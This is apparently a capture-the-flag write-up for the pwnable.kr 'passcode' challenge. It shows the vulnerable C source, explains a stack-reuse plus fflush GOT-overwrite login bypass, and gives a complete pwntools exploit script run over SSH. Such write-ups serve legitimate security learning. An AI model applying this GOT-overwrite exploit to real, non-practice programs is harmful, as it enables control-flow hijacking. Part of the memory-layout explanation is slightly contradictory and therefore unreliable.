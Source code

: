 ### Analysis

The program has a vulnerability due to the reuse of stack memory between the `welcome` and `login` functions. The `login` function uses uninitialized variables (`passcode1` and `passcode2`), which can be influenced by the input provided in the `welcome` function. By carefully crafting the input, we can overwrite the `fflush` GOT entry to redirect execution and bypass the login check.

```C
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;
        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```
### Exploit

1. **Stack Memory Reuse**:
   - The `welcome` function writes 100 bytes of input into `name`, but the last 4 bytes of the stack are not overwritten.
   - These 4 bytes are reused in the `login` function as `passcode1`.

2. **Overwrite `fflush` GOT**:
   - The address of `fflush` in the GOT is `0x804a004`.
   - By overwriting `passcode1` with the address of `fflush`, we can control where `scanf` writes its input.

3. **Redirect Execution**:
   - When `scanf("%d", passcode1)` is called, it will write the input to the address stored in `passcode1` (which we set to the address of `fflush`).
   - We provide the address of the instruction after the login check (`0x80485d7`) as the input, effectively bypassing the login check.

### Solution Code

```python
from pwn import *

# Open a remote SSH connection
sh = ssh(host='pwnable.kr', user='passcode', port=2222, password='guest')
# Launch a process on the SSH connection
s = sh.process('./passcode')

# Address of fflush in GOT (which we want to overwrite)
fflush_address = p32(0x804a004)

# Craft the input: 96 bytes of 'a' followed by the address of fflush
input = b'a' * 96 + fflush_address

# Send the input
s.sendline(input)

# Receive the output
print(s.recvline())

# Address of the instruction after the login check (0x80485d7)
response = str(0x80485d7)

# Send the response to overwrite fflush GOT entry
s.sendline(response)

# Receive the output, which contains the flag!
for _ in range(4):
    print(s.recvline())

# Close the connection
s.close()
```

### Final Command

Run the following Python script to exploit the program and retrieve the flag:

```bash
python3 passcode_exploit.py
```
